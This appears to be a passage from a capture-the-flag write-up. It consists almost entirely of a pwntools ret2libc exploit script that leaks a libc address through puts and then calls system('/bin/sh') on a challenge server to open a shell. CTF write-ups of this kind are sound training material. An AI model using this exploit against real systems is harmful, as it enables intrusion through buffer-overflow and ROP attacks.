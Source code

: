 ```python
binsh = next(libc.search(b"/bin/sh"))
system = libc.symbols["system"]
print("/bin/sh = ",hex(binsh))
print("system = ", hex(system))

payload = offset * b"A" + p64(pop_rdi) + p64(binsh) + p64(system) + p64(pop_rdi) + p64(binsh) + p64(system) # i uh need to do this twice idk why pls dont ask me why
p.sendline(payload)
```

### putting it together

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

elf = ELF("./chall")
libc = ELF("./libc.so.6")

rop = ROP(elf)

context.binary = elf

def conn():
    if args.LOCAL:
        libc = ELF("/usr/lib/libc.so.6")
        return (libc, elf.process())
    else:
        libc = ELF("./libc.so.6")
        return (libc, remote("ctf.cybr.club",2003))


def main():
    (libc, p) = conn()
    offset = 40


    pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

    payload = offset * b"A" + p64(pop_rdi) + p64(elf.symbols['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

    p.sendline(payload)
    p.recvline()
    p.recvline()
    libc_start_address = int.from_bytes(p.recvline().rstrip(), byteorder="little")
    libc.address = libc_start_address - libc.sym["__libc_start_main"]
    print("Address of libc %s " % hex(libc.address))


    binsh = next(libc.search(b"/bin/sh"))
    system = libc.symbols["system"]
    print("/bin/sh = ",hex(binsh))
    print("system = ", hex(system))

    payload = offset * b"A" + p64(pop_rdi) + p64(binsh) + p64(system) + p64(pop_rdi) + p64(binsh) + p64(system) # i uh need to do this twice idk why pls dont ask me
    p.sendline(payload)

```